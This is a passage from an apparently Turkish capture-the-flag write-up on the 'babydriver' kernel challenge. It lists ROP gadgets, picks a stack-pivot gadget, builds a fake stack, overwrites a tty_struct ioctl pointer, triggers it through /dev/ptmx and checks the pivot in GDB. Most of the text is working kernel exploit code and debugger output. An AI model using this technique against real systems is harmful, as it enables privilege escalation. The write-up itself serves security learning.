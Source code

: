 ```
0xffffffff810b1f38 : adc al, 0x24 ; mov rdx, rsp ; jmp 0xffffffff810b1ef6
0xffffffff810b1f35 : add byte ptr [rax + 1], cl ; adc al, 0x24 ; mov rdx, rsp ; jmp 0xffffffff810b1ef6
0xffffffff810b1f34 : add byte ptr [rax], al ; add qword ptr [rsp], rdx ; mov rdx, rsp ; jmp 0xffffffff810b1ef6
0xffffffff810b1f37 : add dword ptr [rsp], edx ; mov rdx, rsp ; jmp 0xffffffff810b1ef6
0xffffffff810b1f36 : add qword ptr [rsp], rdx ; mov rdx, rsp ; jmp 0xffffffff810b1ef6
0xffffffff810b1f3a : mov rdx, rsp ; jmp 0xffffffff810b1ef6
```
Hmm, şansız. Belki de stack'i kullanan birşeyler bulabiliriz:
```
ngn@blackarch:~/Desktop/ncstisc/babydriver# grep 'push rdx' gadgets | grep 'pop rsp'
0xffffffff816b316a : push rdx ; adc byte ptr [rbx + 0x41], bl ; pop rsp ; pop r13 ; pop rbp ; ret
0xffffffff811cc03a : push rdx ; and edx, ecx ; add byte ptr [rbx + 0x41], bl ; pop rsp ; pop rbp ; ret
0xffffffff81154d2a : push rdx ; mov edx, 0x415b0028 ; pop rsp ; pop rbp ; ret
0xffffffff812528b5 : push rdx ; pop rsp ; add bl, ch ; mov ebp, 0xe2d611e8 ; call qword ptr [rax + 0x5c9a2be8]
```
`0xffffffff81154d2a` harika bir seçenek gibi görünüyor. Şimdi yapmamız gereken, geçeceğimiz sahte stack'i oluşturmak, bunun için exploit'imizde,
basitçe bir karakter dizesi oluşturabiliriz:
```c
uint64_t stack[0x100], i = 0;
```
Gadget'ımız, `rsp`yi değiştirdikten sonra ek olarak `rbp`yi pop'latıyor, bunu stack'imize eklememiz gerekecek:
```c
stack[i++] = 0x42; // rbp
```
Son olarak `close()` çağrısı yerine `ioctl()` çağrısını modifye edip, gadget'ımzı yerleştirmemiz lazım:
```c
ops.ioctl = (void *)0xffffffff81154d2a; // push rdx ; mov edx, 0x415b0028 ; pop rsp ; pop rbp ; ret
printf("new ioctl: %p\n", ops.ioctl);
tty->ops = (void *)&ops;
```
Şimdi `/dev/ptmx` üzerinde `ioctl()`i üçüncü argümanımız (`rdx`), `stack` ile çağırdığımızda, gadget'ımız
`rsp`yi `stack`in adresi ile değiştirecektir:
```c
ioctl(fd1, 0, stack);
```
bunu GDB'de, gadget'ımıza bir breakpoint yerleştirip görebiliriz:
```
(gdb) b *0xffffffff81154d2a
Breakpoint 1 at 0xffffffff81154d2a
(gdb) c
Continuing.

Breakpoint 1, 0xffffffff81154d2a in ?? ()
(gdb) x/10i $rip
=> 0xffffffff81154d2a:	push   %rdx
   0xffffffff81154d2b:	mov    $0x415b0028,%edx
   0xffffffff81154d30:	pop    %rsp
   0xffffffff81154d31:	pop    %rbp
   0xffffffff81154d32:	ret
   0xffffffff81154d33:	nopl   (%rax)
   0xffffffff81154d36:	cs nopw 0x0(%rax,%rax,1)
   0xffffffff81154d40:	push   %rbp
   0xffffffff81154d41:	mov    %rsp,%rbp
   0xffffffff81154d44:	push   %r13
(gdb) p/x $rdx
$1 = 0x7ffc3772e720
(gdb) si
```